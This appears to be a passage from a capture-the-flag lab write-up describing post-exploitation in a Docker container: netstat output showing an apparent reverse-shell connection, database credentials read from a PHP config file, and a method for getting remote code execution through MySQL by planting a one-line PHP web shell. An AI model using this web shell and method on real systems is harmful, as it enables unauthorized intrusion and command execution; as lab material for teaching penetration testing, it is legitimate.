 But checking for open ports using netstat,we see only open ports within the docker environment

```nmap
www-data@a7cac6cdbc37:/var/www/admin$ netstat -ona 
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.11:35539        0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 192.168.100.100:80      10.50.103.242:34158     ESTABLISHED keepalive (7060.64/0/0)
tcp        0    144 192.168.100.100:49044   10.50.103.242:4444      ESTABLISHED on (0.46/0/0)
udp        0      0 127.0.0.11:56884        0.0.0.0:*                           off (0.00/0/0)
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node   Path
unix  2      [ ACC ]     STREAM     LISTENING     23162    /var/run/mysqld/mysqld.sock
www-data@a7cac6cdbc37:/var/www/admin$ 

```

Now that we know mysq is running, we neet to search for mysql credentials most likely found in `/var/www/`

```mysql
www-data@a7cac6cdbc37:/var/www/admin$ cat db_connect.php
<?php

define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');

$connection = mysqli_connect(DB_SRV, DB_USER, DB_PASSWD, DB_NAME);

if($connection == false){

        die("Error: Connection to Database could not be made." . mysqli_connect_error());
}
?>
```

- username : admin
- password : !123SecureAdminDashboard321!
- host : 192.168.100.1


The basic methodology for exploiting MySQL can be found below.

- Access the remote database using administrator credentials
- Create a new table in the main database
- Inject PHP code to gain command execution
- Example code: <?php $cmd=$_GET["cmd"];system($cmd);?>
- Drop table contents onto a file the user can access
- Execute and obtain RCE on the host.
